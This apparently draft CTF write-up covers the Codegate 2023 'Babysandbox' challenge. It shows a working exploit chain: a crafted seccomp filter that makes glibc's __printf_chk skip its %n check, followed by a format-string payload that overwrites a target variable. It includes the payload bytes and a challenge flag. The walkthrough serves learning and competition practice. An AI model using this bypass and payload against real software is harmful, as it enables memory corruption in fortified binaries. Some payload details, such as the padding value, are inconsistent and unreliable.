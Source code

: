 ```yaml
---
title: Babysandbox
date: 2023-07-09T01:52:07+03:00
description: Writeup for Babysandbox [Codegate Qualifs 2023]
author: zenbassi
tags:
- pwn
- misc
draft: true
---
```

___

## Challenge Description

Can't remember. ups

## Intuition

For this challenge we have the source code available, so looking at it we notice a few things.

Firstly, we notice that the first input is the length and the payload for a seccomp rule. Then we see that a first check is passed and `vuln` is called. We can provide a second input of maximum 256 bytes, which is used in a printf-like function. This looks like a classic string-format vulnerability.

```c
void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input); // <- string format vulnerability

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}
```

The issue is that `__printf_chk` is a hardened version of `printf` which
doesn't allow the use of `%n` to write to memory. We have to somehow bypass
this limitation in order to change the value in `target` to `0x1337`.


## Solution

The easiest way we found to generate seccomp payloads is to use `seccomp-tools`
[^1]. If we compile `return ALLOW` we get `\x06\x00\x00\x00\x00\x00\xFF\x7F`.
To make this a valid payload we prepend the 4-byte length and get
`\x08\x00\x00\x00\x06\x00\x00\x00\x00\x00\xff\x7f`. Sending this to the program 
passes the seccomp-loading phase, so we're good in that regard.

Now what? 

### The seccomp payload

We somehow have to bypass the check in `__printf_chk` and might be able to use
some seccomp rules to achieve this. Luckily, we found
[this](https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/) [^2]
blog post, which pretty much does exactly what we need. Looking in the `glib`
implementation of `__printf_chk`, we see that the issue described in the blog
still exists. To find this, I just searched on
[codebrowser](https://codebrowser.dev/glibc/glibc/) for the error `*** %n in
writab...`.

```c
if ((mode_flags & PRINTF_FORTIFY) != 0)
{
    if (!readonly_format)
    {
        extern int __readonly_area (const void *, size_t)
    attribute_hidden;
        readonly_format
    = __readonly_area (format, ((STR_LEN (format) + 1)
                    * sizeof (CHAR_T)));
    }
    if (readonly_format < 0)
    __libc_fatal ("*** %n in writable segment detected ***\n");
}
```

It's clear that `__readonly_area` gets called and returns something lower than
0. The plant would be to return something greater than 0 to bypass the security
check. Looking at the `__readonly_area` implementation we see the following:

```c
  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
```

It's clear now that if we make `fopen` fail with `ENOENT` or `EACCESS` the
function will return 1, which will bypass the check we're concerned with.
This is achievable via seccomp rules:

```
A = sys_number
A != openat ? ok : next
A = args[1]
A &= 0xff
A == 0x47 ? ok : next
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```
Notice a few things:
1. We're looking for the `openat` syscall. We wasted a lot of time trying to
   catch an `open` syscal, but eventually thought of running our binary with
   `strace`. Only then we saw the it calls `openat`.
2. We also check the first argument of the `openat` call, which is the file
   name address. `0x47` is the last byte of the `FLAG_PATH` address.

### The string format exploit

We have to write `0x1337` to the address. The way we can to this is by using
the `%n` format modifier, which writes **the number of bytes written so** to the address given. However, we have to use some tricks in order to abuse this.

1. The first trick is to use `%{k}c` which prints a character given as argument
   but also pads it to the left with spaces until the number of outputted
   characters is equal to $k$.
2. In order to use `%n` with a given address, we first have to _consume_
   some arguments. We can do that using `%p`. Now the question is, how many
   arguments? 6 at least are taken from registers, which we have no control
   over. The following are taken from the stack, 8 bytes at a time (if we use
   `%p`), so we have to carefully align everything.

Our final payload looked like this:
```
x = 4771
seccomp_payload = b" \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00 \x00\x00\x00\x18\x00\x00\x00T\x00\x00\x00\xFF\x00\x00\x00\x15\x00\x01\x00G\x00\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
payload = p32(len(payload)) + seccomp_payload

payload += f'%{x}c%p.%p.%p.%p.%p.%p.%p.%p.%p.%p%naaa'.encode()
payload += p64(0x404088) # target address
```

The length of the given format string (excluding the target address) is exactly 40 bytes, meaning that we have to use 5 `%p`s to consume it all. In the end we append the target address to the payload so `%n` writes to it. `x` has to be adjusted according to how much characters are printed overall (can be easily done with gdb).

### Flag

`bestctf{.hidden_struggled_with_this_one}`

## References (in case you used [^footnotes] thingies)
[^1]: seccomp-tools: https://github.com/david942j/seccomp-tools
[^2]: 2017 HXP CTF - hardened flag writeup: https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/
